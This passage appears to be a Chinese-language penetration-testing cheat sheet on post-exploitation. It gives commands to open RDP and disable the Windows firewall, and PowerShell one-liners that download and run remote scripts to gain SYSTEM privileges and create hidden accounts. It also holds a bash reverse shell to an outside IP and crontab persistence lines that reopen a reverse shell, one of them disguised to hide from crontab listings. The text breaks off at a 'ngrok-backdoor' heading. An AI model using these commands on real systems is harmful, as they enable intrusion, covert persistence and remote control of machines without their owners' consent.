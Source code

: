 > netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow

关闭防火墙

> netsh firewall set opmode mode=disable

3389user 无法添加:

> http://www.91ri.org/5866.html

****隐藏 win 账户****

开启 sys 权限 cmd:

> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1');Invoke-TokenManipulation -CreateProcess 'cmd.exe' -Username 'nt authority\system'

add user 并隐藏:

> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/Windows-User-Clone/master/Windows-User-Clone.ps1')

win server 有密码强度要求，改为更复杂密码即可:

渗透技巧——Windows 系统的帐户隐藏

> https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/

windows 的 RDP 连接记录:

> http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95/

### linux bash

> bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

``bash -i`` 交互的 shell 

``&`` 标准错误输出到标准输出

``/dev/tcp/10.0.0.1/8080`` 建立 socket ip port

``0>&1`` 标准输入到标准输出

> (crontab -l;echo '*/60 * * * * exec 9<> /dev/tcp/IP/port;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i')|crontab -

猥琐版

> (crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/IP/PORT;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for whoami%100c\n")|crontab -

详细介绍

> https://github.com/tom0li/security_circle/blob/master/15288418585142.md

### ngrok-backdoor
